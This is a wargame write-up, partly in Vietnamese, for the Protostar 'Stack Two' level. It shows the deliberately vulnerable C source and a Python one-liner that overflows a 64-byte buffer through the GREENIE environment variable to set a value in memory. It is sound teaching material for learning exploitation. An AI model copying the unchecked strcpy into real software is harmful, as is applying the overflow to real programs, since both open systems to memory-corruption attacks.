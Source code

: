 # STACK TWO

## About

Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Solutions

`STACK TWO` được thay đổi một chút từ `STACK ONE` khi mà vẫn có thể khai thác buffer overflow thông qua `strcpy()` nhưng giá trị được sao chép là từ `Environment Variables` - `Biến môi trường` mà chương trình yêu cầu là `GREENIE`.

Ta tiến hành set giá trị cho biến môi trường `GREENIE`:

```
root@protostar:/opt/protostar/bin# GREENIE=$(python -c 'print "A" * 64 + "\x0a\x0d\x0a\x0d"')           
root@protostar:/opt/protostar/bin# export GREENIE 
```
Lưu ý `Little Edian` và lưu biến môi trường vào danh sách.

```
root@protostar:/opt/protostar/bin# ./stack2                                                             
you have correctly modified the variable
```

## Documents

<https://en.wikipedia.org/wiki/Stack-based_memory_allocation>

<https://www.educative.io/edpresso/what-is-gets-in-c>

<https://en.wikipedia.org/wiki/Endianness>

<https://linuxconfig.org/how-to-set-and-list-environment-variables-on-linux>


